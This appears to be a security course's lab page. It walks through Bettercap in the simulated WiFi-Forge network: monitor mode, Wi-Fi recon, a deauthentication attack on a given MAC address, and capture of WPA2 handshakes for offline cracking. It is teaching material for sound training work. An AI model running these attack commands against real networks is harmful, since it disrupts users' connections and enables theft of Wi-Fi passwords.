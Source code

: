# OPTIONAL WiFi-Forge Lab

!!! warning
    WiFi-Forge is under **active development** (AKA - this Lab may have issues) by the good folks at Black Hills Information Security. They are seeking feedback on the tool and welcome the submission of any issues on the [main GitHub page](https://github.com/blackhillsinfosec/Wifi-Forge/issues).

    A forked version can be found at [https://github.com/ridgebackinfosec/Wifi-Forge](https://github.com/ridgebackinfosec/Wifi-Forge) which should work with this Lab.

!!! warning
    Wifi-Forge can take up a lot of space on a VM and can create unpredicatable consequences between dependencies. It is recommended that you either create a new VM from The Forge base image or snapshot your class VM ***before*** installing Wifi-Forge.

!!! note
    This and many more WiFi-Forge Labs are available at [https://wififorge.github.io/](https://wififorge.github.io/). 
    
    Follow the install steps from the slides or [here](https://wififorge.github.io/Installation/Installation) before working on this Lab.

In this lab, we will familiarize ourselves with Bettercap, a common wireless auditing tool.

## Getting Started with Bettercap

```bash
cd ~/Wifi-Forge/Framework
sudo python3 WifiForge.py
```

Select **Bettercap Recon** from the menu. Allow up to 30 seconds to initialize the network.

![Bettercap Recon](img/main-menu.png){ width="50%" }

!!! note
    Normally, when using Bettercap with physical network cards, it is necessary to use `airmon-ng check kill` to terminate processes that may interfere. However, running this command in the mininet-wifi network is unnecessary and may cause failures.

Start by putting the interface `a-wlan0` in monitor mode:

```bash
airmon-ng start Attacker-wlan0
```

If prompted, input **y** and hit enter.

![Prompt](img/prompts.png){ width="50%" }

Successful initialization will appear as shown below:

![Initialization Success](img/init-success.png){ width="50%" }

Verify that the interface has been put into monitor mode:

```bash
ifconfig | grep flags
```

The interface `a-wlan0mon` should now be present:

![Monitor Mode Active](img/monitor-mode.png){ width="50%" }

## Launching Bettercap

Run the following command to start Bettercap with the interface in monitor mode:

```bash
bettercap -iface a-wlan0mon
```

You will be greeted by a prompt displaying the network interface name:

![Bettercap Interface](img/interface.png){ width="50%" }

The following commands configure the console for a more understandable workflow to view the de-authentication attack:

```bash
set wifi.show.sort clients desc
set ticker.commands 'clear; wifi.show'
ticker on
set wifi.show.sort clients desc
```

After running these commands, you should see the following on your screen:

![Bettercap Console](img/console.png){ width="50%" }

Disable console logging using:

```bash
events.stream off
```

## Capturing Handshakes

Set the handshakes file and enable the `wifi.recon` module:

```bash
set wifi.handshakes.file ./loot/4whs
wifi.recon on
```

Force the interface to operate only on channel 6:

```bash
wifi.recon.channel 6
```

Start the de-authentication attack:

```bash
wifi.deauth 76:df:71:67:40:2b
```

It may take a few seconds, but Bettercap will catch the handshake:

![Handshake Captured](img/handshake.png){ width="50%" }

A handshake is an encrypted WPA2 password intercepted between the client and router, which can be decrypted offline.

Your final packet count may differ from the screenshot.